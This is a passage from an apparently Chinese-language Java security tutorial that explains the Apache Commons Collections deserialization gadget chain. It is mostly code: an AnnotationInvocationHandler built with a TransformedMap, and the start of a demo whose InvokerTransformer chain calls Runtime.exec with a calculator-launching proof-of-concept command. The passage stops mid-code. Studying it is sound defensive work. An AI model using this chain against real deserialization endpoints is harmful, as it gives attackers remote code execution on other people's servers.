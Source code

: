 ```java

// 获取AnnotationInvocationHandler类的构造方法
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

// 设置构造方法的访问权限
constructor.setAccessible(true);

// 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
// Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
Object instance = constructor.newInstance(Target.class, transformedMap);
```

`instance`对象就是我们最终用于序列化的`AnnotationInvocationHandler`对象，我们只需要将这个`instance`序列化后就可以得到用于攻击的`payload`了。

**完整的攻击示例Demo:**

```java
package com.anbai.sec.serializes;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

/**
 * Creator: yz
 * Date: 2019/12/16
 */
public class CommonsCollectionsTest {

	public static void main(String[] args) {
		String cmd = "open -a Calculator.app";
    
		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);

		// 创建Map对象
		Map map = new HashMap();
		map.put("value", "value");

		// 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
		Map transformedMap = TransformedMap.decorate(map, null, transformedChain);
```